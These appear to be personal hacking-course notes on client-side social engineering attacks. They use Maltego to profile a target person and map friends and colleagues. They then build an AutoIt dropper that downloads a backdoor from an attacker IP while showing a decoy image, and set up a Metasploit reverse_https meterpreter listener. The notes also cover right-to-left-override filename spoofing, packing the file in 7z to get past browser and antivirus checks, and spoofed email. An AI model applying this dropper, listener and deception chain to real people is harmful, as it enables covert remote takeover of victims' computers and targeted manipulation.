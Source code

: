 # Client side attacks — social engineering
-   There are many tools on market for this activity
-   It is mainly about gathering as much information about target person and creating strategy how to manipulate the target person to help us with the hack

## Tool <strong>Maltego</strong>
-   It can automatically find information regarding target. 
-   Example 1st step gather information:
    1)  Create graph
    2)  Put person inside the Graph
    3)  Fill the name
    4)  Right click on Person and in transformers find websites
    5)  It will try to find all websites connected to the name including profiles on platforms like Udemy, Stack Overflow...
    6)  Go through all the found websites and if more information was found, start filling the graph. Did you find Twitter/Facebook/Instagram... account? Put them in.
    7)  To add more entities, than shown on left side. Find the correct one under Entity option in top bar.
    8)  If did you find Twitter, create entity Twitter fill the information. Right click and find friends on twitter.
    9)  Did you find email? Add new entity email address and set the email you found. Right click and try to find more with transforms.
        -   Possible way, choose domain name
        -   after the domain shows right click and try to get email addresses or try to find a website and from there try to find more email addresses

-   Example 2nd step build strategy:
    1)  Put the Person on the top and connect the gathered information that was gathered based on relations.
    2)  Explore the graph, we could find work colleagues which might be also friends. Email that looks like coming from person like this can be sent to the target person, which will include for example backdoor.

## Include backdoor created before with any file
-   Use file created in 08_client_side_attacks and put it inside image / pdf / anything else
-   Steps (using Autoit):
    1)  Create auto download and run script (example: included in attachments file `autoit-download-and-execute.txt` to use the file, fill in the download URLs in line 4\). First URL is the not malicious file (example some image), Second should be direct URL to the backdoor (example: `192.168.72.129/evil_files/backdoor.exe`).
    2)  Change file extension from .txt to .au3
    3)  Create icon which will correspond to the non-malicious file. In our case image.
    4)  Open Compile Script (from Autoit). Tool is automatically installed with Veil.
        -   Choose source as our file
        -   Set destination
        -   Set custom icon created in step 3
        -   Click on convert and after done get the created .exe

-   Listen in Metasploit to any incoming connection (described in 08_client_side_attacks):
```bash
msfconsole
use exploit/multi/handler # use module which enables to listen to incoming connections
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.72.129
set LPORT 8080
exploit # now if anybody opens the backdoor, it will come to this pc...
```
-   get the compiled script from point 4 to victim pc via email or any other method and wait for attacked person to open it. 
-   the file is shown on the victim's machine with icon we previously created and it will open the image for him, therefore it is less suspicious and it executes at background the malicious code. But it is still .exe

### Convert the file from .exe to any desired suffix
-   use right to left characters:
    -   rename the file in the way, that the desired suffix is on the contrary at the end of file name: `porsche.exe => porschegpj.exe`
    -   use `right to left override` character on the position where the contrary suffix starts
    -   system will now read the name in this way (see the source code of this file next to result to understand better): `porsche‮gpj.exe`
    -   best works with filenames which ends with exe
    -   when downloaded by browser. Browser will replace the right to left override character. To prevent it from happening zip the file.
Note: In my case Chrome is able to detect the virus inside .zip. But .7z went smoothly through. But then it was stopped via windows defender. I was able to make this work only after windows defender was down. Probably well known technique by antiviruses.

## Fake email
-   There are many websites for sending spoofed emails. The problem with them is that they will usually end up in spam box.